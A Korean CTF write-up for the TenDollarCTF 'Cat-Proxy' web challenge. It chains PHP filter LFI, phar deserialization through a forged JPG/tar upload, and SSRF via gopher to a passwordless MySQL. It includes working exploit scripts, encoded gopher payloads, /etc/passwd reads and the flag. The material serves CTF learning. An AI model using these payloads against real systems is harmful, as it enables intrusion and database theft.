




# TenDollarCTF 3rd - Cat-Proxy

## Information

Category : Web

Solver : 1

Tag : LFI, Unserialize, SSRF, MySQL

## Description

Author: @shpik

https://www.youtube.com/watch?v=wZZ7oFKsKzY

Server Info: <http://web2.tendollar.kr:8100/>

## Exploit

문제 페이지에 접속하면 3개의 메뉴가 보입니다.

- Home
- Login
- Join

우선, Join을 통해 회원가입을 합니다.

그러면 추가적으로 2개의 메뉴가 나옵니다.

- Nyaa
- Profile

nyaa페이지에서 URL입력하면 입력한 페이지를 nyaaa라는 페이지에서 화면에 출력해줍니다.

Profile 페이지에서는 이미지를 업로드하면 업로드된 이미지로 Avatar가 변하는 것 같습니다.

.php파일을 업로드 해보았지만 확장자가 jpg, jpeg, gif, png인 파일이 아니면 업로드가 안되는 모양입니다.

이 문제는 p파라미터를 통해 페이지를 처리합니다.

p 파라미터에 php wrapper를 써서 소스코드를 릭할 수 있습니다.

`http://web2.tendollar.kr:8100/?p=php://filter/convert.base64-encode/resource=index`

```html
<!-- index.php -->
<?php
    error_reporting(0);
    include('config.php');
    include('lib.php');
    include('header.php');
    $page = $_GET['p'];
    if(is_null($page) || is_array($page)|| $page==''){
        $page = 'home';
    }else{
        if(preg_match('/phar|zip|gopher|file:|\.\.|dict|iter|glob|ftp/i',$page)){
            $page = 'home';
        }
    }
    include($page.'.php');
    include('footer.php');
?>
```

config.php와 lib.php의 소스코드를 Leak합니다.

```html
<!-- config.php -->
<?php
//	error_reporting(0);
    $host = "catproxy_db_1";
    $user = "cat";
    $db_schema = "cat";
	$port = 3306;
    $mysql = new mysqli($host, $user, "", $db_schema,$port);
    $mysql->query("SET NAMES utf8");

    
?>

<!-- lib.php -->
<?php
	ini_set('phar.readonly',0);
    class Requests{
        public $url;

        function __construct($url){
            $this->url = $url;
        }
        function __destruct(){
            $ch = curl_init();
            curl_setopt($ch, CURLOPT_URL, $this->url);
            curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
            $output = curl_exec($ch);
            echo '<div class="description">'.$output.'</div>';
        }
    }
?>
```

config.php는 database 접속에 대한 정보가 들어있습니다만, 패스워드가 없는 것을 알 수 있습니다.

lib.php에는 Requests 클래스가 선언되어 있습니다.

이 클래스는 선언할 때 입력받은 url을 기반으로 curl을 수행합니다.

또 하나 눈여겨 봐야할 코드는 `ini_set('phar.readonly',0);`, phar.readonly옵션이 False로 설정되어 있습니다.

nyaa와 nyaaa페이지를 Leak 하였습니다.

```html
<!-- nyaa.php -->
<?php
    if($_SESSION['is_login'] !==1 ) die("<script>alert('Login please.');history.back();</script>");
?>
<div class="description"><br><br>
	<form action="?p=nyaaa" method="post">
        <center>Cat is going to anywhere!!!</center><br><br>
		<table class="loginform">
			<tr>
                <td>URL : </td>
                <td><input type="text" name="url" size="80"></td>
			</tr>
			<tr>
                <td colspan=2 style="align: right;"><input type="submit" value="Request"></td>
			</tr>
		</table>
	</form>
</div>
<!-- nyaaa.php -->
<?php
    if($_SESSION['is_login'] !==1 ) die("<script>alert('Login please.');history.back();</script>");
?>
<div class="description"><br><br>
    Result : <br><br>
    <?php 
        $url = $_POST['url'];
        if(preg_match('/phar|zip|gopher|php|dict|iter|glob|ftp|file|%0d|%0a/i',$url)){
            echo "Hacking Detected!<br>What's are you doing now nyaa?!";
        }else{
            $obj = new Requests($url);
        }
    ?>
</div>
```

nyaaa.php에서는 Requests 클래스를 이용해 결과를 출력해줍니다.

다만 입력값 url에 대한 필터링이 걸려있으므로, http, https외에는 요청할 수 없습니다.

다음으로 profile과 uploadThumb를 Leak합니다.

```html
<!-- profile.php -->
<?php
    if($_SESSION['is_login'] !==1 ) die("<script>alert('Login please.');history.back();</script>");
?>
<div class="description"><br><br>
	<form enctype="multipart/form-data" action="?p=uploadThumb" method="post">
		<table class="loginform">
			<tr>
				<td colspan=2 style="text-align: left;">" style="height: 100px; width: 100px; object-fit: contain; vertical-align: middle; border: 1px solid #000000;"></td><td style="text-align: left;">ID : <?=$_SESSION['id'];?></td>
			</tr>
			<tr>
                <td>Update Avatar : </td>
                <td colspan=2 style="text-align: right;"><input type="file" name="thumb" value="upload"><input type="submit" value="upload"></td>
			</tr>
		</table>
	</form>
</div>

<!-- uploadThumb.php -->
<?php
    if($_SESSION['is_login'] !==1 ) die("<script>alert('Login please.');history.back();</script>");
    chdir('uploads');
    $allowExt = Array('jpg','jpeg','png','gif');
    $fname = $_FILES['thumb']['name'];
    $fname = array_pop(explode('./',$fname));
    if(file_exists(urldecode($fname))){

        echo "<script>alert('Already uploaded file.\\nPlease change filename.');history.back();</script>";
    }else{
        $ext = strtolower(array_pop(explode('.',$fname)));
        if($_FILES['thumb']['error'] !== 0){
            die("<script>alert('Upload Error!');history.back();</script>");
        }
        if(!in_array($ext, $allowExt)){
            die("<script>alert('Sorry, not allow extension.');history.back();</script>");
        }

        $contents = file_get_contents($_FILES['thumb']['tmp_name']);

        if($ext=="jpg"){
            if(substr($contents,0,3)!="\xFF\xD8\xFF") die("<script>alert('JPG is corrupted.\\nSorry.');history.back();</script>");
        }else if($ext=="jpeg"){
            if(substr($contents,0,3)!="\xFF\xD8\xFF") die("<script>alert('JPEG is corrupted.\\nSorry.');history.back();</script>");
        }else if($ext=="png"){
            if(substr($contents,0,4)!="\x89PNG") die("<script>alert('PNG is corrupted.\\nSorry.');history.back();</script>");
        }else if($ext=="gif"){
            if(substr($contents,0,4)!="GIF8") die("<script>alert('GIF is corrupted.\\nSorry.');history.back();</script>");
        }else{
            die("<script>alert('Something error.\\nSorry.');history.back();</script>");
        }

        @move_uploaded_file($_FILES['thumb']['tmp_name'], $fname);

        $id = $mysql->real_escape_string($_SESSION['id']);
        $sql = "UPDATE users SET thumb='".$mysql->real_escape_string($fname)."' WHERE id='".$id."';";
        $result = $mysql->query($sql);
        if($result===TRUE){
            $_SESSION['avatar'] = $fname;
            echo("<script>alert('Successfully Avatar Change!');history.back();</script>");
        }else{
            echo("<script>alert('Upload failed!');history.back();</script>");
        }
    }
?>
```

uploadThumb에서 업로드하려는 파일의 확장자를 검사하고, 파일이 존재하지 않을 경우 이미지 파일의 헤더부분을 체크하고 정상적일 경우 업로드를 수행합니다.

여기서 취약점은 **file_exists**에 있습니다.

**file_exists**는 phar wrapper가 들어갔을 때, phar안에 들어있는 metadata를 unserialize하여 공격이 발생합니다.

우리에게 주어진 class는 Requests 로써, **SSRF**(Server Side Request Forgery) 문제임을 짐작할 수 있습니다.

> **Unserialize using file function**
>
> file 관련 함수에 phar wrapper을 통해 metadata로 object가 들어가 있는 phar파일을 열면 unserialize가 발생합니다.
>
> e.g. file_exists("phar://shpik.phar");
>
> 이 취약점은 **file_exists** 뿐만 아래의 함수들에서 발생합니다.
>
> - include('phar://test.phar'); 
> - file_get_contents('phar://test.phar'); 
> - file_put_contents('phar://test.phar', ''); 
> - copy('phar://test.phar', ''); 
> - file_exists('phar://test.phar'); 
> - is_executable('phar://test.phar'); 
> - is_file('phar://test.phar'); 
> - is_dir('phar://test.phar'); 
> - is_link('phar://test.phar'); 
> - is_writable('phar://test.phar‘); 
> - fileperms('phar://test.phar'); 
> - fileinode('phar://test.phar'); 
> - filesize('phar://test.phar'); 
> - fileowner('phar://test.phar');
> - filegroup('phar://test.phar'); 
> - fileatime('phar://test.phar'); 
> - filemtime('phar://test.phar');
> - filectime('phar://test.phar'); 
> - filetype('phar://test.phar'); 
> - getimagesize('phar://test.phar'); 
> - exif_read_data('phar://test.phar'); 
> - stat('phar://test.phar'); 
> - lstat('phar://test.phar'); 
> - touch('phar://test.phar‘); 
> - md5_file('phar://test.phar');
> - and so on..

우선 아래의 코드를 통해 phar을 생성해줍니다. 

```php
ini_set('phar.readonly',0);

class Requests{
    public $url;

    function __construct($url){
        $this->url = $url;
    }
    function __destruct(){
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $this->url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        $output = curl_exec($ch);
        echo $output;
    }
}

@unlink("phar.phar");
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->addFromString("test.txt","test");
$phar->setStub("<?php echo 'STUB!'; __HALT_COMPILER(); ?>");
$obj = new Requests('file:///etc/passwd');
$phar->setMetadata($obj);
$phar->stopBuffering();
```

phar을 생성할 때 중요한 점은 <u>phar의 Metadata에 unserialize를 할 Object가 들어가야 합니다.</u>

여기서는 /etc/passwd를 요청하는 phar파일을 생성하였습니다.

이제 아래의 코드를 통해 file_exists시에 정상적으로 /etc/passwd가 열리는지 확인해봅니다.

```php
ini_set('phar.readonly',0);
class Requests{
    public $url;

    function __construct($url){
        $this->url = $url;
    }
    function __destruct(){
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $this->url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        $output = curl_exec($ch);
        echo $output;
    }
}

file_exists("phar://phar.phar");
```

phar://phar.phar을 인자로 주고 **file_exists** 함수를 실행하면 아래와 같이 Unserialize되어 /etc/passwd가 읽혀졌습니다.



하지만 업로드할 수 있는 파일은 jpg, jpeg, gif, png입니다.

```php
// in uploadThumbnail.php 
$allowExt = Array('jpg','jpeg','png','gif');
    $fname = $_FILES['thumb']['name'];
    $fname = array_pop(explode('./',$fname));
    if(file_exists(urldecode($fname))){

        echo "<script>alert('Already uploaded file.\\nPlease change filename.');history.back();</script>";
    }else{
        $ext = strtolower(array_pop(explode('.',$fname)));
        if($_FILES['thumb']['error'] !== 0){
            die("<script>alert('Upload Error!');history.back();</script>");
        }
        if(!in_array($ext, $allowExt)){
            die("<script>alert('Sorry, not allow extension.');history.back();</script>");
        }
```

다행이도 phar의 경우 확장자는 상관이 없이 phar wrapper를 통해 열 수 있습니다.

```php
file_exists("phar://phar.jpg");
```

이제 남은건 확장자에 맞는 헤더를 맞춰주는 것이다.

```php
if($ext=="jpg"){
    if(substr($contents,0,3)!="\xFF\xD8\xFF") die("<script>alert('JPG is corrupted.\\nSorry.');history.back();</script>");
}else if($ext=="jpeg"){
    if(substr($contents,0,3)!="\xFF\xD8\xFF") die("<script>alert('JPEG is corrupted.\\nSorry.');history.back();</script>");
}else if($ext=="png"){
    if(substr($contents,0,4)!="\x89PNG") die("<script>alert('PNG is corrupted.\\nSorry.');history.back();</script>");
}else if($ext=="gif"){
    if(substr($contents,0,4)!="GIF8") die("<script>alert('GIF is corrupted.\\nSorry.');history.back();</script>");
}else{
    die("<script>alert('Something error.\\nSorry.');history.back();</script>");
}
```

이를 만들기 위해서 phar을 tar형태로 만들엇습니다.

tar의 경우 파일의 이름이 앞에 100byte 나오고 그 뒤에 데이터가 들어가기 때문에 앞부분을 마음대로 조작할 수 있습니다.

다만, tar의 헤더를 변경할 때 checksum또한 계산하여 변경해주어야합니다.

우선 아래의 코드를 이용해 phar데이터를 tar로 만들었습니다.

```php
ini_set('phar.readonly',0);
class Requests{
    public $url;

    function __construct($url){
        $this->url = $url;
    }
    function __destruct(){
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $this->url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        $output = curl_exec($ch);
        echo $output;
    }
}

@unlink("test.tar");
$phar = new PharData("get_flag.tar");
$phar["AAABshpik"] = "FLAGFLAGFLAG";
$obj = new Requests('file:///etc/passwd');
$phar->setMetadata($obj);
```

생성된 파일을 `file_exists("phar://test.tar");` 하게되면 /etc/passwd가 읽혀집니다.

test.tar의 앞 부분의 헥스값은 다음과 같습니다.



앞부분에는 `$phar["AAABshpik"] = "FLAGFLAGFLAG";` 을 통해 넣었던 데이터가 들어있습니다.

이제 "AAABshpik"에서 AAA를 jpg를 업로드할 때 검사하는 헤더의 앞부분인 `\xFF\xD8\xFF` 으로 변경해야합니다.

앞서 말씀드렸다시피 checksum이 존재하기 때문에 이 값을 맞춰줘야 합니다.

아래의 코드를 통해 이름을 변경하고, checksum을 계산하여 넣어주었습니다.

```python
import sys
import struct

def calcChecksum(data):
	return sum(struct.unpack_from("148B8x356B",data))+256

if __name__=="__main__":
	if len(sys.argv)!=3:
		print "argv[1] is filename\nargv[2] is output filename.\n"
	else:
		with open(sys.argv[1],'rb') as f:
			data = f.read()
		# Make new checksum
		new_name = "\xFF\xD8\xFF\xDBshpik".ljust(100,'\x00')
		new_data = new_name + data[100:]
		checksum = calcChecksum(new_data)
		new_checksum = oct(checksum).rjust(7,'0')+'\x00'
		new_data = new_name + data[100:148] + new_checksum + data[156:]

		with open(sys.argv[2],'wb') as f:
			f.write(new_data)
```

이제 위 코드로 생성된 파일을 phar wrapper로 열기위해 우선 서버에 업로드합니다. 

저는 shpik_etcpasswd.jpg의 이름을 사용하였습니다.

그 후 phar://shpik_etcpasswd.jpg를 업로드 해야하는데, file_exists안에 urldecode가 있으므로 아래와 같은 파일을 업로드 하였습니다.

**filename :** phar%3a%2f%2fshpik_etcpasswd.jpg



/etc/passwd가 정상적으로 읽힌 것을 볼 수있습니다.

만약 flag가 파일로 존재할 경우 우리가 가지고 있는 취약점을 이용해서는 파일 이름을 알아낼 수가 없으므로, database안에 있을꺼라 생각합니다.

database는 mysql로써, 패스워드가 존재하지 않습니다.

그러면 gopher wrapper을 이용해 mysql에 접속하여 데이터를 추출합니다.

gopher을 통해 mysql의 데이터를 추출하기 위해 raw socket을 이용해야하며, 제가 사용한 코드는 아래와 같습니다.

```python
import struct

def raw_encode(data):
    query = ''
    for i in range(len(data)/2):
        query += '%' + data[2*i:2*(i+1)]
    return unicode(query)

p_4 = lambda x:struct.pack('<L',x)

# SSRF MySQL without password
username = 'cat'
username = username.encode('hex')

# prefix + username(hex) + \x00 + password(\x00) + suffix
connect =  "85a21e0000000040080000000000000000000000000000000000000000000000"
connect += username
connect += '00'
connect += '00'
connect += "6d7973716c5f6e61746976655f70617373776f72640061035f6f730964656269616e362e300c5f636c69656e745f6e616d65086c69626d7973716c045f7069640532323334340f5f636c69656e745f76657273696f6e08352e362e362d6d39095f706c6174666f726d067838365f363403666f6f03626172"
connect = hex(len(connect)/2)[2:]+"000001"+connect

# \x03 = exec query
query = "select * from information_schema.tables where table_schema='cat';"
raw_query = "03"
raw_query += query.encode('hex')
raw_query = p_4(len(query)+1).encode('hex')+raw_query

# quit
disconnect = '0100000001'

data = raw_encode(connect + raw_query + disconnect)

print "gopher://catproxy_db_1:3306/_"+data
'''
$ python mysql_raw_connect.py
gopher://catproxy_db_1:3306/_%9d%00%00%01%85%a2%1e%00%00%00%00%40%08%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%63%61%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%61%03%5f%6f%73%09%64%65%62%69%61%6e%36%2e%30%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%32%33%34%34%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%08%35%2e%36%2e%36%2d%6d%39%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%03%66%6f%6f%03%62%61%72%42%00%00%00%03%73%65%6c%65%63%74%20%2a%20%66%72%6f%6d%20%69%6e%66%6f%72%6d%61%74%69%6f%6e%5f%73%63%68%65%6d%61%2e%74%61%62%6c%65%73%20%77%68%65%72%65%20%74%61%62%6c%65%5f%73%63%68%65%6d%61%3d%27%63%61%74%27%3b%01%00%00%00%01
'''
```

위에서 얻은 url로 object를 생성해줍니다.

```php
$phar = new PharData("get_tables.tar");
$phar["AAABshpik"] = "FLAGFLAGFLAG";
$obj = new Requests('gopher://catproxy_db_1:3306/_%9d%00%00%01%85%a2%1e%00%00%00%00%40%08%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%63%61%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%61%03%5f%6f%73%09%64%65%62%69%61%6e%36%2e%30%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%32%33%34%34%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%08%35%2e%36%2e%36%2d%6d%39%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%03%66%6f%6f%03%62%61%72%42%00%00%00%03%73%65%6c%65%63%74%20%2a%20%66%72%6f%6d%20%69%6e%66%6f%72%6d%61%74%69%6f%6e%5f%73%63%68%65%6d%61%2e%74%61%62%6c%65%73%20%77%68%65%72%65%20%74%61%62%6c%65%5f%73%63%68%65%6d%61%3d%27%63%61%74%27%3b%01%00%00%00%01');
$phar->setMetadata($obj);
```

여기서 생성된 phar 파일을 헤더를 `\xFF\xD8\xFF` 로 변경하고 .jpg로 확장자를 바꿔서 업로드 해준 후 phar wrapper를 통해 서버에 요청하면 mysql에서 table list를 볼 수 있습니다. ( shpik_tables.jpg )

**filename :** phar%3a%2f%2fshpik_tables.jpg

```
HTTP/1.1 200 OK
Date: Wed, 28 Nov 2018 12:08:45 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/7.2.2
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 2578
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html>
<head>
	<title>CAT Proxy</title>
	<link rel=stylesheet href="index.css">
</head>
<body>
    <div class="menu">
        <div style="text-align: left; padding-left: 50px;font-size: 20px; font-style: bold;">Cat Proxy</div><br>
        <a href="?p=home" class="menu_a">Home</a>
        <a href="?p=nyaa" class="menu_a">Nyaa</a> <a href="?p=profile" class="menu_a">Profile</a> <a href="?p=logout" class="menu_a">Logout</a>    </div><script>alert('Already uploaded file.\nPlease change filename.');history.back();</script></body>
</html><div class="description">J   
5.7.24 g  ci   ?           0VMk7Zh. mysql_native_password           N  definformation_schematablesTABLES
TABLE_CATALOG
TABLE_CATALOG    ?    L  definformation_schematablesTABLESTABLE_SCHEMATABLE_SCHEMA @   ?    H  definformation_schematablesTABLES
TABLE_NAME
TABLE_NAME @   ?    H  definformation_schematablesTABLES
TABLE_TYPE
TABLE_TYPE @   ?    @  definformation_schematablesTABLESENGINEENGINE @   ?     B  definformation_schematablesTABLESVERSIONVERSION?         H  definformation_schematablesTABLES
ROW_FORMAT
ROW_FORMAT 
   ?     H  	definformation_schematablesTABLES
TABLE_ROWS
TABLE_ROWS?         P  
definformation_schematablesTABLESAVG_ROW_LENGTHAVG_ROW_LENGTH?         J  definformation_schematablesTABLESDATA_LENGTHDATA_LENGTH?         R  definformation_schematablesTABLESMAX_DATA_LENGTHMAX_DATA_LENGTH?         L  
definformation_schematablesTABLESINDEX_LENGTHINDEX_LENGTH?         F  definformation_schematablesTABLES	DATA_FREE	DATA_FREE?         P  definformation_schematablesTABLESAUTO_INCREMENTAUTO_INCREMENT?         J  definformation_schematablesTABLESCREATE_TIMECREATE_TIME?    €    J  definformation_schematablesTABLESUPDATE_TIMEUPDATE_TIME?    €    H  definformation_schematablesTABLES
CHECK_TIME
CHECK_TIME?    €    R  definformation_schematablesTABLESTABLE_COLLATIONTABLE_COLLATION     ?     D  definformation_schematablesTABLESCHECKSUMCHECKSUM?         P  definformation_schematablesTABLESCREATE_OPTIONSCREATE_OPTIONS    ?     N  definformation_schematablesTABLES
TABLE_COMMENT
TABLE_COMMENT    ?      ?  " f  defcatflag
BASE TABLEInnoDB10Dynamic0016384000?2018-11-24 03:42:04嬅latin1_swedish_ci?  }  defcatusers
BASE TABLEInnoDB10Dynamic4239016384000?2018-11-24 03:42:042018-11-28 12:08:36?latin1_swedish_ci?    ?  " </div>
```

cat이라는 database안에 flag, user라는 테이블이 있는 것을 볼 수 있습니다.

이제 select * from cat.flag를 실행하는 phar파일을 생성하여 서버에 업로드 하면 flag를 얻을 수 있습니다.




**FLAG :** TDCTF{W0W_Do_you_know_SSRF_Shiina_Mashiro_Kawaii}


